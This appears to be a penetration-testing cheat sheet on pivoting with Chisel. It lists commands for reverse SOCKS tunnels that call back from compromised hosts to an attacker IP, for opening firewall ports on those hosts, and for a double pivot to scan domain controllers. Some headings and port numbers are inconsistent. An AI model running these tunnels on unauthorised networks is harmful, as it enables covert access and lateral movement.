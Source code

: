 ### Reverse SOCKS Proxy
```shell
chisel server -p 1335 --reverse &
```

```shell
./chisel client 192.168.45.237:1335 R:9999:socks &
```
```powershell
Start-Job {.\chisel.exe client 192.168.45.237:1335 R:9999:socks}
Start /B chisel.exe client 10.10.14.189:443 R:9050:socks &
```

### Port Forward
```shell
.\chisel.exe client 192.168.45.237:1335 8080:127.0.0.1:80
```

### Local Port Forward
A remote port forward is when we connect back from a compromised target to create the forward.
Start chisel server on compromised host
```powershell
./chisel_windows.exe server --port 54321 --reverse --socks5

netsh advfirewall firewall add rule name="Chisel" dir=in action=allow protocol=tcp localport=15997

netsh advfirewall firewall add rule name="Chisel" dir=in action=allow protocol=tcp localport=15997
```
OR 
```bash
firewall-cmd --zone=public --add-port 15997/tcp
```
Connect to target
```shell
chisel client 192.168.194.95:54321 127.0.0.1:9999:127.0.0.1:3306
```
Everything we send to 127.0.0.1:9999 will get sent to the target on 3306

### Double Pivot
Kali -> NIX01(DMZ) -> DC01 -> DC02
- NIX01 and DC01 - 172.16.1.0/24
- DC02 - 172.16.2.0/24

On our machine
```shell
./chisel_linux server --socks5 -p 9001 --reverse
```
Edit proxychains config and comment out `socks 127.0.0.1 9050`
```shell
socks5 127.0.0.1 9999
socks5 127.0.0.1 8888
```
On NIX01
```shell
./chisel client 10.10.14.10:9001 R:9999:socks &
./chisel server  -p 9002 --reverse --socks5 &
```
On DC01
```powershell
chisel.exe client 172.16.1.100:9002 R:8888:socks
```
Scan
```bash
proxychains -q nmap -p445 -Pn -v 172.16.2.5
```

It can be helpful to be mindful of the size of the files we transfer onto targets on our client's networks, not just for performance reasons but also considering detection. Two beneficial resources to complement this particular concept are Oxdf's blog post "[Tunneling with Chisel and SSF](https://0xdf.gitlab.io/cheatsheets/chisel)" and IppSec's walkthrough of the box `Reddish`. IppSec starts his explanation of Chisel, building the binary and shrinking the size of the binary at the 24:29 mark of his [video](https://www.youtube.com/watch?v=Yp4oxoQIBAM&t=1469s)